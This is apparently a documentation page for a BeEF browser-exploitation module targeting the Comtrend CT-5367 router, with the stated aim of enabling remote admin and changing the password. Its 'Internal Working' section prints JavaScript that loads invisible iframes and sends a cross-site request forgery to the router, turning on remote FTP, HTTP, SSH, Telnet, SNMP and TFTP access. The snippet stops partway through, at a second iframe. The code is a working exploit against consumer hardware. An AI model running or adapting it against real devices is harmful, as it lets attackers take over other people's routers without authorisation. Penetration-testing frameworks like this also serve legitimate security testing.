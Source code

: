 ## Summary

* **Objective**: enable remote admin and change the password on a CT-5367 Router
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/router/comtrend_ct5367_csrf)

## Internal Working

Uses an invisible iframes to change config

```js
  var gateway = '<%= @base %>';
  var passwd  = '<%= @password %>';
  var timeout = 15;

  var ct5367_iframe1_<%= @command_id %> = beef.dom.createInvisibleIframe();
  ct5367_iframe1_<%= @command_id %>.setAttribute('src', gateway+'scsrvcntr.cmd?action=save&ftp=1&ftp=3&http=1&http=3&icmp=1&snmp=1&snmp=3&ssh=1&ssh=3&telnet=1&telnet=3&tftp=1&tftp=3');

  var ct5367_iframe2_<%= @command_id %> = beef.dom.createInvisibleIframe();
```

## Feedback

